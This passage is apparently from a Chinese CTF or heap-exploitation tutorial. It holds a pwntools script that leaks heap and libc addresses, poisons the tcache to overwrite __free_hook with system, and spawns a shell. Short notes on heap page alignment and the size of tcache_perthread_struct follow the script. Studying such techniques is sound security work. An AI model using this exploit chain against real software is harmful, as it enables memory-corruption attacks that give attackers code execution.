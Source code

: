 ```python
    p.sendlineafter("Index: ",str(index))

add(0x60,'a'*0x10)#0
add(0x60,'b'*0x10)#1
delete(0)

show(0)#leak heapbase
heap_base=u64(p.recv(5).ljust(8,b'\x00'))&lt;&lt;12
print('heapbase',hex(heap_base))

add(0x60,'b')#2
delete(1)
#tcache 0x70 : 0=2-&gt;1
delete(0)

#add(0x80)是为了避免进入fastbin
#3-10
for i in range(3,11):
    add(0x80,'s')
add(0x10,'prevent chunk')
for i in range(3,11):
    delete(i)

#11
show(10)#leak libc
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x1e3c00
print('libcbase',hex(libc_base))
free_hook=libc_base+libc.symbols['__free_hook']
sys_addr=libc_base+libc.symbols['system']

value=((heap_base+0x2a0)&gt;&gt;12)^free_hook
edit(2,p64(value))

add(0x60,'/bin/sh\x00')
add(0x60,p64(sys_addr))
delete(12)
p.interactive()
```

原理
--

堆地址一般低12位为0，页对齐

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-506540ddccae19c23039a8f12eae22672149110d.png)

tcache\_perthread\_struct
=========================

**tcache\_perthread\_struct可以free掉，在libc2.30以下的版本tcache\_perthread\_struct大小为0x250;在libc2.30及以上大小变成了0x290（因为counts的类型从char变成了uint16\_t）**

**可以在tcache\_perthread\_struct上进行堆布局实现一些目的**
